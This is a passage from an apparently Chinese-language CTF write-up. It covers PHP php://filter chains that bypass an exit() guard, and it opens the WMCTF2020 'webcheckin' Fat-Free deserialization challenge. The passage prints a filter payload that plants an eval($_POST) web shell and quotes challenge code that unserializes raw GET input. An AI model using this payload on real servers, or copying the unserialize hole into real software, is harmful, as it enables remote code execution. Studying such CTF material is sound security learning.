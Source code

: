 这样直接访问沙盒里生成的文件就等同于获得了一个 shell, 然后就是访问根目录的 flag 文件 get shell

![20210419140652234](https://raw.githubusercontent.com/Ricky-369369/Rickyweb/main/Nepnep/Probation/img/20210419140652234.png)

WP中介绍了**字符串过滤器中的部分 **, **压缩过滤器**和**加密过滤器**, 再研究一下这三个冷门的过滤器

| 过滤器             | 作用                               |
| ------------------ | ---------------------------------- |
| zlib.deflate       | 压缩                               |
| zlib.inflate       | 解压                               |
| mcrypt.tripledes   | 加密                               |
| mdecrypt.tripledes | 解密                               |
| string.toupper     | 大写                               |
| string.tolower     | 小写                               |
| string.strip_tags  | 发生segment fault, 生成php临时文件 |

结合`zlib.deflate`和`zlib.inflate`使用后会发现**中间插入string.tolower转后会把空格和exit给处理了**

```
php://filter/zlib.deflate|string.tolower|zlib.inflate|?><?php%0deval($_POST[hack]);?>/resource=ricky.php
```

官方的解法感觉特麻烦而且直接生成的 shell 根本不能在 file_put_contents 后直接使用, 爆破临时文件这个考点显得很鸡肋

## [WMCTF2020] webcheckin

/www.zip 查看源码

一个FatFramework的反序列化

```php
<?php

// Kickstart the framework
$f3=require('lib/base.php');

$f3->set('DEBUG',1);
if ((float)PCRE_VERSION<8.0)
	trigger_error('PCRE version is out of date');

// Load configuration
$f3->config('config.ini');

$f3->route('GET /',
	function($f3) {
		echo "just get me a,don't do anything else";
	}
);
unserialize($_GET['a']);

$f3->run();
```
